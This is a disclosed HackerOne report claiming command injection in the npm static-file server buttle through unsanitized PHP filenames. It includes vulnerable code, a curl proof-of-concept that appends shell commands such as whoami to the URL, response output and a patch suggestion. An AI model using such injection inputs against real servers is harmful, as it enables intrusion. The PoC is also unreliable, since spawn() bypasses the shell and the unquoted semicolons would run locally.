 # [buttle] Remote Command Execution via unsanitized PHP filename when it's run with --php-bin flag

## Report Details
- **Report ID**: 331032
- **URL**: https://hackerone.com/reports/331032
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-29T10:43:09.761Z
- **Disclosed**: 2018-05-11T15:52:15.524Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Remote Code Execution in buttle module.

When buttle is run with ```--php-bin``` option (to handle PHP), the PHP filename is not sanitized and allows to inject shell commands.

# Module

**module name:** buttle
**version:** 0.2.0
**npm page:** https://www.npmjs.com/package/buttle

## Module Description

Simple static file (+ markdown) server.


## Module Stats

Stats:

N/A, estimated ~20-40 downloads/week

# Vulnerability

## Vulnerability Description

When buttle is run with ```--php-bin``` option (to handle PHP), the PHP filename is not sanitized and allows to inject shell commands. This is possible due to this code:

```javascript
// ./node_modules/buttle/lib/mid-php.js, line 15

    var phpFile = norm(join(docroot, req.url));
    fs.exists(phpFile, function(exists) {
    if(exists) {
        res.setHeader('Content-Type', 'text/html');

        var cp = require('child_process').spawn(phpBin, [phpFile]);

        cp.stdout.on('data', function(data) {
        res.write(data);
        });

        cp.stderr.on('data', function(data) {
        res.write(data);
        });

        cp.on('close', function() {
        res.end('');
        });

    } else {
```

As you can notice, ```spawn()``` method is called with PHP file as an argument, but no sanitization is apllied on ```phpFile``` variable. Using ```curl```, I was able to pass example PHP filename concatenated with ```;[shell cmd]``` string, which allows me to execute command on the server.


## Steps To Reproduce:

- install ```buttle```:

```
$ npm i buttle
```

- create ```test.php``` file with folloing content:

```php
<?php
echo 'Its working!';
?>

```

- run buttle with PHP support:

```
$ ./node_modules/buttle/bin/buttle -p 8080 --php-bin /usr/bin/php
Listening on port 8080
```

- execute following command in the console:

```
$ curl -v --path-as-is http://localhost:8080/test.php;whoami;uname -a;pwd;echo "uh oh, RCE :P"
```

- see response from the server containing results of execution of injected commands:

```
*   Trying ::1...
* Connected to localhost (::1) port 8080 (#0)
> GET /test.php HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: text/html
< Date: Thu, 29 Mar 2018 10:35:22 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
* Connection #0 to host localhost left intact
Its working!rafal.janicki
Linux LT0081U2 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
/home/rafal.janicki/playground/hackerone/Node
uh oh, RCE :P
```


## Patch

```phpFile``` variable should be sanitized. Ideally, it should strip everything what comes after ```.php``` extension in filename and do not allow to use any Bash special characters (like semicolon, pipe, comma etc.)

## Supporting Material/References:


- Operating system: Ubuntu 16.04
- Node.js 8.9.4
- npm v. 5.6.0
- curl v. 7.47.0

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

I hope my report will help to keep Node.js ecosystem and its users safe :)

Regards,

Rafal 'bl4de' Janicki

## Impact

An attacker is able to execute commands on remote server where buttler with --php-bin flag is run.

## Attachments
No attachments
